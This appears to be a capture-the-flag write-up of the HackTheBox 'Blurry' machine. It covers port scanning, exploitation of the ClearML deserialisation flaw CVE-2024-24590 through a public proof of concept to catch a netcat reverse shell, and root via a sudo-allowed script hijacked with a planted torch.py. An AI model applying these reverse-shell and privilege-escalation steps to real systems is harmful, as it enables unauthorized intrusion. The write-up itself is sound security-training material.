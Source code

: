 ```yaml
---
title: HTB - Blurry
date: 2024-10-12 00:00:00 + 1000
categories: [Linux,Web App,CTF,HTB]
tags: [WebExploitation,Deserialization,ClearML,CVE-2024-24590]
comments: false
---
```


The Blurry HTB machine was compromised by exploiting a deserialisation vulnerability (CVE-2024-24590) in the ClearML API, leading to initial access as the `jippity` user. Privilege escalation was achieved by leveraging a `sudo` allowed command, `/usr/bin/evaluate_model`, to execute a crafted python script, resulting in root access.

## Common Enumerations

### Nmap

I fired up the `nmap -p- -sC -sV -oA recon/allport 10.10.11.19 --open` - which found two open ports (SSH-22, HTTP-80)

- Full port scan `-p-`
- Default Script `-sC`
- Version detection `-sV`
- Save the results to `-oA recon/allport`
- Only show open ports `--open`

```bash
$ sudo nmap -p- -sC -sV -oA recon/allport 10.10.11.19 --open
[sudo] password for ctf: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-09 12:37 AEST
Nmap scan report for 10.10.11.19
Host is up (0.0057s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 3e:21:d5:dc:2e:61:eb:8f:a6:3b:24:2a:b7:1c:05:d3 (RSA)
|   256 39:11:42:3f:0c:25:00:08:d7:2f:1b:51:e0:43:9d:85 (ECDSA)
|_  256 b0:6f:a0:0a:9e:df:b1:7a:49:78:86:b2:35:40:ec:95 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-title: Did not follow redirect to http://app.blurry.htb/
|_http-server-header: nginx/1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.67 seconds
```

It redirected to `app.blurry.htb`, so I added to my `/etc/hosts` file

### Website - 80

Browsing the `app.blurry.htb` brings up the login page for clearml. An open source platform for machine-learning-workflows; clearml is for streamline CI/CD for AI

![img](/assets/img/Blurry/1.webp)

Quick Google search, led me to "Deserialisation of Untrusted Data" - [CVE-2024-24590](https://security.snyk.io/vuln/SNYK-PYTHON-CLEARML-6230390) vulnerability

## Initial Access

Okay, so on the ClearML web interface, there was a project called "Black Swan" that was active

![img](/assets/img/Blurry/2.webp)

I did some more digging and found a Proof of Concept [PoC](https://github.com/LordVileOnX/ClearML-vulnerability-exploit-RCE-2024-CVE-2024-24590-) on GitHub

### Testing PoC

Inside the "Black Swan" project, I saw options to create a "New Experiment" and "Create New Credentials."

![img](/assets/img/Blurry/3.webp)

The key was the credentials. I grabbed the access and secret keys and added `api.blurry.htb` and `files.blurry.htb` to `/etc/hosts`, so that all relevant domains pointed to the target machine. Here's what my hosts file now looked like:

```bash
10.10.11.19     app.blurry.htb api.blurry.htb files.blurry.htb
```

I now had the credentials to interact with the clearml api. Here's what that looked like:

```python
api {
  web_server: http://app.blurry.htb
  api_server: http://api.blurry.htb
  files_server: http://files.blurry.htb
  credentials {
    "access_key" = "BKF98AG8EEVIF5A2YXFD"
    "secret_key" = "BJ5qvWSvOz7mp2Of3EIBq4ioh1bHViDavaI9TRQcENjrcgJKq5"
  }
}
```

Next, I installed the `clearml` python package using `pip install clearml`. This is the library that the PoC and the CLI tool use to interact with the ClearML API. I then ran `clearml-init` to configure the API with the extracted credentials

```bash
$ clearml-init
ClearML SDK setup process

Please create new clearml credentials through the settings page in your `clearml-server` web app (e.g. http://localhost:8080//settings/workspace-configuration) 
Or create a free account at https://app.clear.ml/settings/workspace-configuration

In settings page, press "Create new credentials", then press "Copy to clipboard".

Paste copied configuration here:
api {
  web_server: http://app.blurry.htb
  api_server: http://api.blurry.htb
  files_server: http://files.blurry.htb
  credentials {
    "access_key" = "BKF98AG8EEVIF5A2YXFD"
    "secret_key" = "BJ5qvWSvOz7mp2Of3EIBq4ioh1bHViDavaI9TRQcENjrcgJKq5"
  }
}
```

With the API credentials configured, I set up a netcat listener with the command `nc -lvnp 1337` on my attacking machine and ran the exploit from GitHub using `python3 exploit.py`

```bash
$ nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.10.14.33] from (UNKNOWN) [10.10.11.19] 35952
bash: cannot set terminal process group (2083): Inappropriate ioctl for device
bash: no job control in this shell
jippity@blurry:~$ whoami
whoami
jippity
jippity@blurry:~$ 
```

And boom! I got a shell as the user `jippity`

### Shell as jippity

I upgraded my shell to a more interactive one using Python

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
CTRL+Z
stty raw -echo; fg
export TERM=xterm
```

Next up, I have grab that user flag

```text
328b36e9....
```

## Privilege escalation

Time to get root! I checked for any easy privilege escalation possibilities using `sudo -l`. This command lists the commands that the current user can run with `sudo` without a password. Jackpot! It turns out that `jippity` can run `/usr/bin/evaluate_model` with `sudo` privileges without a password

```bash
jippity@blurry:~$ sudo -l
Matching Defaults entries for jippity on blurry:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jippity may run the following commands on blurry:
    (root) NOPASSWD: /usr/bin/evaluate_model /models/*.pth
jippity@blurry:~$ 
```

I created a file in the `/models` directory called `torch.py` and filled it with python code to execute a bash shell. This is where the RCE comes in. Here's the command:

```bash
echo 'import os; os.system("bash")' > /models/torch.py
```

Then, I ran the sudo command with my malicious file like this: `sudo /usr/bin/evaluate_model /models/demo_model.pth`

```bash
jippity@blurry:~$ sudo /usr/bin/evaluate_model /models/demo_model.pth 
```

And there it was! Root access! I grabbed the root flag

```bash
jippity@blurry:/models$ sudo /usr/bin/evaluate_model /models/demo_model.pth 
[+] Model /models/demo_model.pth is considered safe. Processing...
root@blurry:/models# whoami
root
root@blurry:/models# 
root@blurry:/models# cat /root/root.txt
de5a6a7b9248be166602677182155eb4
root@blurry:/models# 
```

root.txt

```text
de5a6a7b92....
```
